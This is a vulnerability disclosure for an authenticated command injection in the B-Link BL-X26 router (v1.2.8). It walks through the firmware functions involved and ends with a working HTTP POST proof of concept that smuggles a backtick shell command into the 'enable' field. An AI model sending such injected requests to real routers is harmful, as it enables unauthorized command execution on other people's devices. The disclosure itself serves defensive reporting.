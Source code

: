 

## Submitter：林淦(Lingan) 罗熙(Luoxi)

## Submitter unit：广州大学 (Guangzhou University)

## **Basic Information**

- **Vendor:** B-Link
- **Vendor Website:** https://www.b-link.net.cn/
- **Affected Device Type:** Router
- **Affected Product:** BL-X26
- **Affected Product Version:** v1.2.8

## 1. Vulnerability Overview

B-Link X26 router V1.2.8 version has a command execution vulnerability. Triggering this vulnerability requires authorization. Once the attacker obtains authorization, he can trigger the vulnerability by sending a malicious HTTP POST request.



## 2. Vulnerability Details

When the request path is set_hidessid_cfg, it will enter the processing logic of the sub_44F9F4 function

![](img/1.png)

You can see that two fields are set to values: type and enable. The parameters are then packaged into a JSON object and passed to the bs_SetSSIDHide function.

The bs_SetSSIDHide function is encapsulated in the libshare-0.0.26.so library.

![](img/2.png)

It can be found that bs_SetSSIDHide takes the values of the two json format objects passed in, and then there is a judgment, the type value is sethide2 to bypass this if branch

![](img/3.png)

Here you will find that the command v19 is executed, and v19 is spliced from v7, and v7 is the value enabled, which is the value passed in at the beginning.

![](img/4.png)

![](img/5.png)

Then there is a libc function related command execution

## 3. POC

POST /goform/set_hidessid_cfg HTTP/1.1

Host: 192.168.16.1

Content-Length: 43

X-Requested-With: XMLHttpRequest

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36 Edg/139.0.0.0

Accept: application/json, text/javascript, */*; q=0.01

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

Origin: http://192.168.16.1

Referer: http://192.168.16.1/admin/more.html

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

Cookie: user=admin; platform=0

Connection: keep-alive

 

type=sethide2&enable=`ls>/etc_ro/web/3.txt`



![](img/6.png)

![](img/7.png)

